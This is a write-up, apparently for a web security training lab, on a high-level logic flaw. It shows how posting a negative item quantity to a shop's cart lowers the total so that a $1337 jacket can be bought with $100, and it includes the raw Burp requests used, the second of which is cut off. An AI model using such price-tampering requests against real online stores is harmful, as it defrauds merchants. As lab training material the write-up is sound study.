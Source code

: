 ```
```

### Lab: High-level logic vulnerability

Task: Buy jacket with only $100 in your account

Solution: Observe that we can set the quantity of items to add to cart as negative. Add negative 20 amount of Six Pack Beer Belt $63.50 and one positive amount of Lightweight "l33t" Leather Jacket $1337 which gives us a net total of 67 which we can affort. Note that although there is no validation for adding negative amounts of an item, there is validation for purchasing items whose total add up to a negative amount. 

Burp Request for -20 Six Pack Beer Belt

```
POST /cart HTTP/1.1
Host: 0a4f00e304439956c0fd6400000a00e8.web-security-academy.net
Cookie: session=LdvaegtxiDbH7IhtGlZpaZ0Iqb2fPRwY
Content-Length: 36
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a4f00e304439956c0fd6400000a00e8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4f00e304439956c0fd6400000a00e8.web-security-academy.net/product?productId=3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

productId=3&redir=PRODUCT&quantity=-20
```

Burp Request for 1 Lightweight "l33t" Leather Jacket

```
POST /cart HTTP/1.1
Host: 0a4f00e304439956c0fd6400000a00e8.web-security-academy.net
Cookie: session=LdvaegtxiDbH7IhtGlZpaZ0Iqb2fPRwY
Content-Length: 36
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a4f00e304439956c0fd6400000a00e8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a4f00e304439956c0fd6400000a00e8.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
```